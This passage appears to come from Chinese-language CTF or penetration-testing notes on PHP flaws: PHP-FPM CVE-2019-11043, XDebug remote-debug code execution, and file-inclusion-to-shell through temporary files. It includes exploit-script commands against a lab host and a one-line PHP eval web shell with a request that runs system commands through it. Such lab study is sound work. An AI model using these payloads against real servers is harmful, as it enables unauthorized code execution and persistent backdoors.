 访问`http://xxxxxx/index.php?a=id` 需要多访问几次以访问到被污染的进程。

![image](img/phpfpm-2.png)

* 参考文章
  * https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md

#### PHP-XDebug

**RCE**

XDebug是PHP的一个扩展，用于调试PHP代码。如果目标开启了远程调试模式，并设置remote\_connect\_back = 1：

```
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

这个配置下，我们访问http://target/index.php?XDEBUG\_SESSION\_START=phpstorm，目标服务器的XDebug将会连接访问者的IP（或X-Forwarded-For头指定的地址）并通过dbgp协议与其通信，我们通过dbgp中提供的eval方法即可在目标服务器上执行任意PHP代码。

[exp脚本](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)该脚本是一个反向连接的过程，公网的需要VPS

`python3 exp.py -t http://node4.buuoj.cn:26521/ -c 'shell_exec('id');'`

![image](img/xdebug1.png)

#### PHP-Inclusion

PHP文件包含漏洞中，如果找不到可以包含的文件，我们可以通过包含临时文件的方法来getshell。因为临时文件名是随机的，如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。

[exp.py](https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py)

```
python exp.py your-ip 8080 100
```

利用脚本exp.py实现了上述过程，成功包含临时文件后，会执行`<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>`，写入一个新的文件`/tmp/g`，这个文件就会永久留在目标机器上。

包含成功的话

`lfi.php?file=/tmp/g&1=system(%27ls%27);`

* 参考文章
  * https://github.com/vulhub/vulhub/blob/master/php/inclusion/README.zh-cn.md
